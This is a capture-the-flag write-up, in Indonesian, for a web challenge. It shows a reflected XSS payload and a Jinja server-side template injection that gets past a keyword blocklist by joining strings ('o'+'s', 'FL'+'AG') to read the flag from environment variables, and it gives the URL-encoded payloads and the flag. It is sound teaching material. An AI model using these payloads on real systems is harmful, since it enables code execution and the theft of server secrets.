




# Blog — Writeup

**Category    :** Web  
**Difficulty  :** Medium  
**Target      :** http://blog.sctf.my.id   
**Description :**

Ada sebuah majalah dinding digital di sudut internet.
Pemiliknya dengan hangat menyapa setiap pengunjung secara personal — nama kamu akan terpampang di halaman utama.

Ia sudah waspada terhadap vandalisme. Ada daftar kata-kata yang tidak boleh ditulis, sudah ia tempel di mana-mana.

Tapi bahasa itu luas. Selalu ada cara lain untuk mengucapkan hal yang sama.

## Solve

Saat kita baca deskripsi pada soalnya kita langsung me notice, jika chall ini akan mengarah ke input user, lalu ada blacklist word juga jadi awal nya kita asumsikan sebagai XSS karna ditambah input name juga muncul di HTML. Lalu kita coba lakukan `Payload XSS` 

```payload
https://blog.sctf.my.id/?name=%3Csvg%2Fonload%3Dconfirm(1)%3E
```

output



Ternyata payload berhasil di lakukan maka artinya input memang tidak di validasi dengan benar, tapi pas kita coba exfiltrate cookie ke webhook:

```cookie
document.cookie
```

Tidak ada hasil ketika dicoba, maka ini menunjukkan bahwa kerentanan XSS memang valid, namun engga bisa dimanfaatkan untuk memperoleh cookie sehingga untuk mendapatkan flag bukan lewat sini, kita coba cek source HTML nya dan ternyata terdapat sebuah hint



Setelah itu kita coba tes SSTI karna kalau flag berada di enviroment variable maka biasanya chall bisa diexploitasi dengan SSTI atau RCE untuk melihat enviromentnya

```ssti
https://blog.sctf.my.id/?name={{7*7}}
```

output


Ternyata keluar hasil dari `7*7` nya, berarti ada kemungkinan jika ini ada `Server-Side Template Injection`. Karna SSTI valid, maka kita coba baca enviroment variable flag nya dengan `Payload Jinja` tetapi karna disini ada kata yang di blokir seperti import, os, env atau evironment maka kita coba bypass dengan di pecah `'o'+'s'` dan `'FL'+'AG'`.

Karna kata import di blokir maka kita coba dengan mengganti mengunakan __init__, dan __init__ punya __global__ yaitu global namespace Python sebagai tempat fungsi dibuat. Jadi kita coba dengan seperti ini hasil rangkaiannya

```a
{{cycler.__init__.__globals__['o'+'s'].getenv('FL'+'AG')}}
```

Lalu di URL encode menjadi

```payload_jinja
https://blog.sctf.my.id/?name=%7B%7Bcycler.__init__.__globals__%5B%27o%27%2B%27s%27%5D.getenv(%27FL%27%2B%27AG%27)%7D%7D
```

output


## Flag

```text
SCTF26{sst1_byp4ss_w1th_str1ng_c0nc4t}
```
